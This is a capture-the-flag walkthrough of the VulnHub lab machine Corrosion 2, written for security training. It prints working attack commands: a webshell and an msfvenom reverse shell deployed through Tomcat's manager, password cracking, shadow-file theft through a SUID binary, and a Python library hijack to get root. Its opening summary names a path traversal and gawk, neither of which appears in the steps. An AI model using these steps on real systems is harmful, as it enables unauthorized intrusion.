 
[https://www.vulnhub.com/entry/corrosion-2,745/](https://www.vulnhub.com/entry/corrosion-2,745/?ref=rootandbeer.com)

Corrosion 2 is a medium difficulty box that demonstrated various attack techniques and exploits, focusing on privilege escalation, file path traversal, and password cracking. The initial foothold was gained through a file path traversal vulnerability, which allowed access to sensitive files, including password hashes. These hashes were cracked, enabling further access. Exploiting SUID binaries was central to elevating privileges, with the `gawk` binary playing a key role in achieving root access. The challenge required understanding misconfigurations, leveraging binaries with elevated permissions, and carefully navigating access controls to achieve full system compromise. These techniques highlight the importance of patching common vulnerabilities and securing binaries to prevent unauthorized escalation.

**Run *[[nmap]] -A* scan against all TCP ports:**

```bash
└─$ nmap -A -sC -p- 192.168.5.114
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 19:42 EDT
Nmap scan report for 192.168.5.114
Host is up (0.015s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6a:d8:44:60:80:39:7e:f0:2d:08:2f:e5:83:63:f0:70 (RSA)
|   256 f2:a6:62:d7:e7:6a:94:be:7b:6b:a5:12:69:2e:fe:d7 (ECDSA)
|_  256 28:e1:0d:04:80:19:be:44:a6:48:73:aa:e8:6a:65:44 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat 9.0.53
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.53
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.43 seconds
```

**Run *nikto* scan on port 8080 to discover "*backup.zip*":**

```bash
└─$ nikto -timeout 2 -h http://192.168.5.114:8080
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.5.114
+ Target Hostname:    192.168.5.114
+ Target Port:        8080
+ Start Time:         2024-08-05 17:46:37 (GMT-7)
---------------------------------------------------------------------------
+ Server: No banner retrieved
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /backup.zip: Potentially interesting archive/cert file found.
+ /backup.zip: Potentially interesting archive/cert file found. (NOTE: requested by IP address).
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ OSVDB-3092: /readme.txt: This might be interesting...
+ /manager/html: Default Tomcat Manager / Host Manager interface found
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/status: Default Tomcat Server Status interface found
+ /host-manager/status: Default Tomcat Server Status interface found
+ 8069 requests: 0 error(s) and 16 item(s) reported on remote host
```

**Download *backup.zip*:**

```bash
└─$ wget http://192.168.5.114:8080/backup.zip -O backup.zip
```

**Crack zip file password with *[[fcrackzip]]* & *rockyou* password list:**

```bash
└─$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip
PASSWORD FOUND!!!!: pw == @administrator_hi5    
```

**Unzip *backup.zip* using password:**

```bash
└─$ unzip backup.zip                                                   
Archive:  backup.zip
[backup.zip] catalina.policy password: 
password incorrect--reenter: 
  inflating: catalina.policy         
  inflating: context.xml             
  inflating: catalina.properties     
  inflating: jaspic-providers.xml    
  inflating: jaspic-providers.xsd    
  inflating: logging.properties      
  inflating: server.xml              
  inflating: tomcat-users.xml        
  inflating: tomcat-users.xsd        
  inflating: web.xml   
```

**Find tomcat admin password in *tomcat-users.xml*:**

```bash
└─$ cat tomcat-users.xml | grep -i password
...
<user username="manager" password="melehifokivai" roles="manager-gui"/>
<user username="admin" password="melehifokivai" roles="admin-gui, manager-gui"/>
```

>[!note]- Option 1: RCE via webshell
> ```bash
> └─$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
> zip -r backup.war cmd.jsp 
> ```
> On Tomcat Web Application Manager page, upload backup.war under "WAR file to deploy".
> 
> Your webshell will be here:
> [http://192.168.5.114:8080/backup/cmd.jsp](http://192.168.5.114:8080/backup/cmd.jsp?)

>[!note]- Option 2: RCE via msfvenom [[reverse shell]]
> ```bash
> └─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.5.10 LPORT=31337 -f war > shell.war
> ```
> On Tomcat Web Application Manager page, upload shell.war under "WAR file to deploy".
> 
> Click on WAR file in Tomcat after it finished uploading
> 
> Receive [[reverse shell]] via netcat:
> 
> ```bash
> └─$ nc -nvlp 31337
> listening on [any] 31337 ...
> connect to [192.168.5.10] from (UNKNOWN) [192.168.5.114] 42390
> ```


**Discover users "randy" and "jaye" in */etc/passwd:***

```bash
└─$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
...
randy:x:1000:1000:randy,,,:/home/randy:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
tomcat:x:1001:1001::/home/tomcat:/bin/sh
sshd:x:127:65534::/run/sshd:/usr/sbin/nologin
jaye:x:1002:1002::/home/jaye:/bin/sh
```

**Find *note.txt* in randy's home folder:**

```bash
└─$ cat /home/randy/note.txt

Hey randy this is your system administrator, hope your having a great day! I just wanted to let you know that I changed your permissions for your home directory. You won't be able to remove or add files for now.

I will change these permissions later on.

See you next Monday randy!
```

**Find user-level flag in randy's home folder:**

```bash
cat /home/randy/user.txt

ca73a018ae6908a7d0ea5d1c269ba4b6
```

**Reuse admin password from tomcat for user "jaye":**

```bash
└─$ ssh jaye@192.168.5.114
jaye@192.168.5.114's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.11.0-34-generic x86_64)
```

**Use look command (SUID as root) to pull the shadow file:**

```bash
jaye@corrosion:~/Files$ ./look '' /etc/shadow
root:$6$fHvHhNo5DWsYxgt0$.3upyGTbu9RjpoCkHfW.1F9mq5dxjwcqeZl0KnwEr0vXXzi7Tld2lAeYeIio/9BFPjUCyaBeLgVH1yK.5OR57.:18888:0:99999:7:::
...
randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
systemd-coredump:!!:18886::::::
tomcat:$6$XD2Bs.tL01.5OT2b$.uXUR3ysfujHGaz1YKj1l9XUOMhHcKDPXYLTexsWbDWqIO9ML40CQZPI04ebbYzVNBFmgv3Mpd3.8znPfrBNC1:18888:0:99999:7:::
sshd:*:18887:0:99999:7:::
jaye:$6$Chqrqtd4U/B1J3gV$YjeAWKM.usyi/JxpfwYA6ybW/szqkiI1kerC4/JJNMpDUYKavQbnZeUh4WL/fB/4vrzX0LvKVWu60dq4SOQZB0:18887:0:99999:7:::
```

**Crack the randy user password with JTR and rockyou.txt password list:**

```bash
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt ./corrosion.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 20 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
                                                                                                                                 
07051986randy    (randy)                                                                                                                                                                                                                                                                                                    
1g 0:00:16:22 DONE (2024-08-05 22:02) 0.001018g/s 14186p/s 14186c/s 14186C/s 070624960..0702328                                                                                                                                                                                                                             
Use the "--show" option to display all of the cracked passwords reliably                                                                                                                                                                                                                                                    
Session completed.  
```

**Reconnect to SSH as randy:**

```bash
ssh randy@192.168.5.114
```

**Check for world-writeable files:**

```bash
$ find / -xdev \( -perm -0002 -a ! -perm -1000 \) -type f -print 2>&1 |grep -v "Permission denied"
/usr/lib/python3.8/base64.py
```

**Run `sudo -l` to discover randy can run randombase64.py as root:**

```bash
randy@corrosion:~$ sudo -l
[sudo] password for randy:
Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on corrosion:
    (root) PASSWD: /usr/bin/python3.8 /home/randy/randombase64.py
```

**Create a python script (*/tmp/test.py*) that launches /bin/bash:**

```bash
# Importing required module
import os
 
os.system('/bin/bash')
```

**Overwrite */usr/lib/python3.8/base64.py* with our python script:**

```bash
cp /tmp/test.py /usr/lib/python3.8/base64.py
```

**Run *randombase64.py* as root:**

```bash
randy@corrosion:~$ sudo /usr/bin/python3.8 /home/randy/randombase64.py
root@corrosion:/home/randy# id
uid=0(root) gid=0(root) groups=0(root)
```

**Grab root flag:**

```bash
root@corrosion:/home/randy# cat /root/root.txt
2fdbf8d4f894292361d6c72c8e833a4b
```

---